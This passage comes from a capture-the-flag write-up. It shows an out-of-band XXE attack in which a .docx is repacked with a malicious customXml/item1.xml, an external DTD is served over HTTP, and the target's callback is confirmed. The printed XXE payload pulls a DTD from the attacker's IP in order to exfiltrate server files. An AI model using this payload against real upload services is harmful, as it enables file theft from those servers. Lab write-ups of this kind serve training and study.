 ```bash
root@silence:~/extracted# zip -r ../xxe-test.docx *
  adding: [Content_Types].xml (deflated 74%)
  adding: customXml/ (stored 0%)
  adding: customXml/item1.xml (deflated 8%)
  adding: docProps/ (stored 0%)
  adding: docProps/core.xml (deflated 52%)
  adding: docProps/app.xml (deflated 50%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: word/ (stored 0%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 71%)
  adding: word/styles.xml (deflated 90%)
  adding: word/webSettings.xml (deflated 56%)
  adding: word/settings.xml (deflated 64%)
  adding: word/fontTable.xml (deflated 69%)
  adding: word/document.xml (deflated 73%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 80%)
```
We now put the whole file back together and upload it.

```bash
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.173 - - [13/May/2020 19:40:54] code 404, message File not found
10.10.10.173 - - [13/May/2020 19:40:54] "GET /ext.dtd HTTP/1.0" 404 -
```
After uploading we get a response back from the server. With this we have successfully verified XXE and can start exploiting.

# Initial foothold
With the XXE verified, we can exploit the XXE to read arbitrary files from the system.

## Exploiting OOB-XXE
After researching a bit more, I found an [article](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) that explains out-of-band XXE data exfiltration. It seems like we exploit the external DTD to exfiltrate files from the server. As we may want to read php files, we also use PHP-filters. [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection#xxe-oob-with-dtd-and-php-filter) has a good payload we can use for that.

### Verifying file-read
In order to get file-read we have to modify our current payload, to load the DTD from our server, which then leaks files from the server.
```bash
root@silence:~/extracted/customXml# cat item1.xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY % ext SYSTEM "http://10.10.14.5/ext.dtd">
  %ext;
  %file;
]>
<xxe>&exfil;</xxe>
```
The XXE now gets the ext.dtd file, which contains the file entity, which again contains the exfil entity. We now update the docx file and upload it again.

